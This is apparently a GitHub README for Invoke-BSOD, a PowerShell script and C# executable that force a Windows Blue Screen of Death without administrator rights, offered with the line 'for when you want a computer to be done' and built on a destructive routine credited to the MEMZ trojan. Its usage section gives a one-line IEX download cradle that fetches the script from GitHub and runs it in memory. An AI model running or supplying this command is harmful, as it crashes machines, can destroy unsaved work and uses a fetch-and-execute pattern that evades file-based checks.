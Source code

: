 # Invoke-BSOD
For when you want a computer to be done - without admin!

BSOD method from here: https://github.com/Leurak/MEMZ/blob/master/WindowsTrojan/Source/Destructive/KillWindows.c#L10-L18

### Invoke-BSOD.ps1

A PowerShell script to induce a Blue Screen of Death (BSOD) without admin privileges.

This is a standalone script, **it does not depend on any other files here.**

Usage:
```
PS>Import-Module .\Invoke-BSOD.ps1
PS>Invoke-BSOD
```
OR...
```
PS>IEX((New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/peewpw/Invoke-BSOD/master/Invoke-BSOD.ps1'));Invoke-BSOD
```
### BSOD.exe

A compiled executable that also create a Blue Screen of Death.

Useful when you don't have PowerShell?

### Program.cs

The C# source behind BSOD.exe
